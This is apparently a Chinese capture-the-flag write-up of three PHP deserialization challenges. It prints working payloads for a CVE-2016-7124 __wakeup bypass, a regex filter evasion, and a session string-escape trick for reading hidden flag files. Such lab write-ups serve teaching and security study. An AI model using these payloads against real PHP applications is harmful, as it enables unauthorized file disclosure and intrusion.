

unserialize3
信息搜集
进入页面后我们发现它的PHP代码
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
然后，我们通过题目就知道本题为反序列化，并且可以通过这个魔术方法也可以进行知道本题考察的应为反序列化。
思路
首先，我们通过代码可以知道如果调用__Wakeup()会跳出程序，所以我们应当不调用这个方法。
我们通过这些信息，可以猜测输出payload的应该为__destruct()。
payload的构造
<?php
class xctf{
public $flag = '111';
}
$flag1 = new xctf();
$flag_s = serialize($flag1);
echo $flag_s;
?>
通过上述代码，得到序列化的对象。
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
我们不想调用__wakeup()，所以我们可以将上述语句进行修改使其不正确，譬如将变量个数1改为2。此时，只会调用析构方法，而不调用苏醒方法。
绕过__wakeup()是利用CVE-2016-7124漏洞，即反序列化时，如果表示对象属性个数的值大于真实的属性个数时就会跳过__wakeup( )的执行。
影响版本：
PHP before 5.6.25
7.x before 7.0.10
最终payload为
Web_php_unserialize
信息搜集
进入页面得到源码
<?php
class Demo {
private $file = 'index.php';
public function __construct($file) {
$this->file = $file;
}
function __destruct() {
echo @highlight_file($this->file, true);
}
function __wakeup() {
if ($this->file != 'index.php') {
//the secret is in the fl4g.php
$this->file = 'index.php';
}
}
}
if (isset($_GET['var'])) {
$var = base64_decode($_GET['var']);
if (preg_match('/[oc]:\d+:/i', $var)) {
die('stop hacking!');
} else {
@unserialize($var);
}
} else {
highlight_file("index.php");
}
?>
思路分析
首先，将代码走一遍。
传入参数，将参数base64解码，使用正则表达式过滤。
进入反序列化，如果正常进入反序列化，则调用苏醒方法。如果属性$file != index.php，便会强制转换为index.php。同时，这里的注释显示flag在fl4g.php中。
之后进入析构方法，会显示file属性指向的文件。
从上面的分析我们可以清楚的看出，如果想要得到flag，我们需要将file属性变为fl4g.php。但是，如果调用苏醒方法，又会将file变回index.php。所以，我们不能去调用它。不调用的方式，我们可以从上题可以知道，改变属性的个数即可。
而反序列化之前会进行一个过滤，这个过滤的含义为
/[oc]:\d+:/i
匹配下列列表中的一个单字符 [oc]
oc matches a single character in the list oc (不区分大小写)
o matches the character o with index 11110 (6F16 or 1578) literally (不区分大小写)
c matches the character c with index 9910 (6316 or 1438) literally (不区分大小写)
: matches the character : with index 5810 (3A16 or 728) literally (不区分大小写)
\d matches a digit (equivalent to [0-9])
+ matches the previous token between 1 and 无穷 times, 尽可能多匹配，如果有必要，回溯匹配更少内容 (贪婪模式)
: matches the character : with index 5810 (3A16 or 728) literally (不区分大小写)
Global pattern flags
i 修改: insensitive. Case insensitive match (ignores case of [a-zA-Z])
即，匹配O:数字:，也就是如果正常的序列化字符串，在这里会被过滤。我们只需要再:与数字之间加空格即可。
payload构造
在构造payload前需要主要一件事
这里有个坑，这里的 file 变量为私有变量，所以序列化之后的字符串开头结尾各有一个空白字符（即%00），字符串长度也比实际长度大 2，如果将序列化结果复制到在线的 base64 网站进行编码可能就会丢掉空白字符，所以这里直接在php 代码里进行编码。类似的还有 protected 类型的变量，序列化之后字符串首部会加上%00*%00。
<?php
class Demo {
private $file = 'index.php';
public function __construct($file) {
$this->file = $file;
}
function __destruct() {
echo @highlight_file($this->file, true);
}
function __wakeup() {
if ($this->file != 'index.php') {
//the secret is in the fl4g.php
$this->file = 'index.php';
}
}
}
$var = new Demo('fl4g.php');
$var = serialize($var);
echo $var;
$var = str_replace('O:4', 'O: 4',$var);//绕过preg_match
$var = str_replace(':1:', ':2:',$var);//绕过wakeup
echo $var;
var_dump(base64_encode($var));
?>
运行上述代码即可。
?var = TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
easy_serialize_php
信息搜集
进入页面，打开code.php 即可查看源码
<?php
$function = @$_GET['f'];
function filter($img){
$filter_arr = array('php','flag','php5','php4','fl1g');
$filter = '/'.implode('|',$filter_arr).'/i';
return preg_replace($filter,'',$img);
}
if($_SESSION){
unset($_SESSION);
}
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
echo '<a href="index.php?f=highlight_file">source_code</a>';
}
if(!$_GET['img_path']){
$_SESSION['img'] = base64_encode('guest_img.png');
}else{
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
$serialize_info = filter(serialize($_SESSION));
if($function == 'highlight_file'){
highlight_file('index.php');
}else if($function == 'phpinfo'){
eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
}
思路分析
代码分析
以GET方式传入参数f，赋值给$function
如果有session，则将其销毁
重新设置session，session[“user”]设置为guest，session[‘funcation’]设置为$function。即，参数f
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST); 这个语句的作用是将POST上传的数组展开，以便直接利用
如果get上传的没有img_path参数，将session[‘img_path’]设置为进过base64加密的guest_img.png。反之，则将其在设置为经过base64编码和sha1哈希后的img_path参数值。
if(!$_GET['img_path']){
$_SESSION['img'] = base64_encode('guest_img.png');
}else{
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
- 调用filter函数，参数是经过序列化的session
$serialize_info = filter(serialize($_SESSION));
- 将传入的序列化的session进行正则表达式匹配，匹配的为php，flag，php5，php4，fl1g，并不区分大小写。将匹配项替换为空。
function filter($img){
$filter_arr = array('php','flag','php5','php4','fl1g');
$filter = '/'.implode('|',$filter_arr).'/i'; // 用 glue 将一维数组的值连接为一个字符串。
return preg_replace($filter,'',$img);
}
- 如果传入的参数f的值为highlight_file，显示源码。如果为phpinfo，显示phpinfo。如果为show_image，就将刚才过滤后的结果进行反序列化，并将文件base64解码，输出内容。
if($function == 'highlight_file'){
highlight_file('index.php');
}else if($function == 'phpinfo'){
eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
}
思路详解
我们从第8的注释里看到，有隐藏信息在phpinfo中，因而我们可以进行查看。发现有flag文件，d0g3_f1ag.php

那么，我们的目的就很明确了，输出这个文件的内容，而8中有一个file_get_contents函数可以输出变量’img’参数所代表的文件。于是，我们向上寻找$serialize_info。
找到6，还没用，继续向上。发现如果img没有指定，那么会对’guest_img.png’进行base64加密。但如果指定了又会被hash，所以我们好像进入死胡同。其实不然，看似没有太大用的6其实就是我们的突破点。
6中会将指定的字符换为空，这里就会影响反序列化的判断，所以就可以利用序列化与反序列化的一些知识，进行攻克。
php反序列化字符逃逸
特点1
在php中，反序列化的过程中必须严格按照序列化规则才能成功实现反序列化，例如：
<?php
$str='a:2:{i:0;s:8:"Hed9eh0g";i:1;s:5:"aaaaa";}';
var_dump(unserialize($str));
?>
输出结果
array(2) { [0]=> string(8) "Hed9eh0g" [1]=> string(5) "aaaaa" }
一般来说，我们对序列化的结果进行增删改查，特别是字符串名、数组名的长度修改都会造成错误。
但是，如果在花括号之后呢？
<?php
$str='a:2:{i:0;s:8:"Hed9eh0g";i:1;s:5:"aaaaa";}awr';
var_dump(unserialize($str));
?>
结果为
array(2) { [0]=> string(8) "Hed9eh0g" [1]=> string(5) "aaaaa" }
仍然可以输出上面的结果，这说明反序列化的过程是有一定识别范围的，在这个范围之外的字符(第二个例子里的abc)都会被忽略，不影响反序列化的正常进行。
特点2
例子：
<?php
$_SESSION["user"]='flagflagflagflagflagflag';
$_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}'; // d0g3_f1ag.php
$_SESSION["img"]='L2QwZzNfZmxsbGxsbGFn'; // /d0g3_fllllllag
echo serialize($_SESSION);
?>
结果为：
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
假设有一个过滤机制将flag都换为空则结果变为了
a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
如果，这时候进行反序列化会怎么样。我们聚焦于s:24，程序会读取长度为24的字符串。于是，读取了 “;s:8:”function”;s:59:”a，读取这24个字符后以”;结尾，正好符合了字符读取的规则。
接下来img，读取ZDBnM19mMWFnLnBocA==，dd读取a。然后，便遇到了;}，从上面的特点1我们完全可以看出，反序列读取应当以这个作为结束。所以后买呢的img没有被读取，我们的img发生了变化，经过反序列化变为了。
array(3) {
["user"]=> string(24) "";s:8:"function";s:59:"a"
["img"]=> string(20) "ZDBnM19mMWFnLnBocA=="
["dd"]=> string(1) "a"
}
写为数组，即为
$_SESSION["user"]='";s:8:"function";s:59:"a';
$_SESSION["img"]='ZDBnM19mMWFnLnBocA==';
$_SESSION["dd"]='a';
可以发现，SESSION数组的键值img对应的值发生了改变。
设想，如果我们可以控制function，但是没有办法控制img，我们便可以利用replace，将function中的img前移替代真正的img。同时因为;}存在，使反序列化时，我们的程序不在乎后面的语句，以达到间接控制img的值。
payload的构造
如果要进行反序列化，funcation，即f必须为show_image。然后，反序列化显示session[img]部分可由post方式进行上传，具体的可以看代码第5步，它会覆盖程序给的值。
GET:?f=show_image
POST:_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"dd";s:1:"a";}